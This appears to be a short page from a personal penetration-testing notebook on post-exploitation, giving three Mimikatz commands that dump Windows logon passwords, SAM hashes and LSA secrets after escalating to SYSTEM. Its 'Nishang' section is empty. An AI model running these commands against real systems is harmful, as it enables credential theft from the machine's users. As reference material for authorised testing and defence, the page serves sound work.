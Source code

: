 # Bring Your Own Land

## Binaries

### Mimikatz

If not then elevate token then check if you're `NT AUTHORITY\SYSTEM` in a elevated context.

![[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Impersonation Privileges/Token Impersonation/Abusing Tokens/SeImpersonatePrivilege/Offensive Tools/Binaries#^1e52a7]]

Then you can dump the credentials.

```
mimikatz # sekurlsa::logonPasswords

mimikatz # lsadump::sam

mimikatz # lsadump::secrets
```

## Scripts

### Nishang

```

```